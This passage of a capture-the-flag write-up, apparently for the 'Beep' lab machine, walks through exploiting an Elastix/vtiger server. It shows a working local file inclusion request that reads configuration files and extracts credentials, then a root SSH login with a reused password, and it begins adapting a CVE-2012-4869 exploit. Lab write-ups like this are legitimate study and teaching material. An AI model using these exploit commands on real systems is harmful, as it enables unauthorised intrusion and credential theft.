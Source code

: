 Tareget is vulnerable! We could us it to read Asterisk configuration to exfiltrate some credentials.
```
curl -s "https://$TARGET_IP/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action" --insecure | grep -v '#' | grep -E 'USER|PASS'
```
```
AMPDBUSER=asteriskuser
AMPDBPASS=************
AMPMGRUSER=admin
AMPMGRPASS=************
FOPPASSWORD=************
ARI_ADMIN_USERNAME=admin
ARI_ADMIN_PASSWORD=************
```

We could use `AMPMGRUSER` and `AMPMGRPASS` to login to Elastix administration panel. We could also check if password has been reused for SSH access.

```
ssh -o KexAlgorithms=+diffie-hellman-group14-sha1 -o HostKeyAlgorithms=+ssh-rsa fanis@$TARGET_IP
fanis@10.129.66.230's password: 
Permission denied, please try again.
```

No luck with `fanis`, but before we will continue let's check just this password for `root`.
```
ssh -o KexAlgorithms=+diffie-hellman-group14-sha1 -o HostKeyAlgorithms=+ssh-rsa root@$TARGET_IP
root@10.129.66.230's password: 
Last login: Tue Feb 11 18:52:02 2025 from 10.10.14.212

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.129.66.230

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

Well... this is quite unexpected, but it shows that is always worth to spray password against all users, including `root`. As we immediately got `root` access we could finish here, but let's run extra mile and pretend that password is invalid ;) and in that situation we would try to exploit [CVE-2012-4869](https://nvd.nist.gov/vuln/detail/CVE-2012-4869). To do so, we would need to execute `callme_page.php` with specially crafted parameters. We will adapt [this Metasploit module](https://www.exploit-db.com/exploits/18659) to our needs as it does not seems to work on it's own (I would assume due to expired TLS certificate). `callme_page.php` script requires as one of it's parameters valid `callmenum` which is basically number in extension which is a rule in the dial plan that defines how calls are handled. Metasploit module that we are analyzing simply tries to brute force it, but we will use LFI to locate this extension number (we could also use web browser to find this in admin panel).

```
curl -s "https://$TARGET_IP/vtigercrm/graph.php?current_language=../../../../../../../../etc/asterisk/sip_additional.conf%00&module=Accounts&action" --insecure | grep -Eo '^\[[^]]+\]' | tr -d '[]' | head -n 1
```
```
233
```
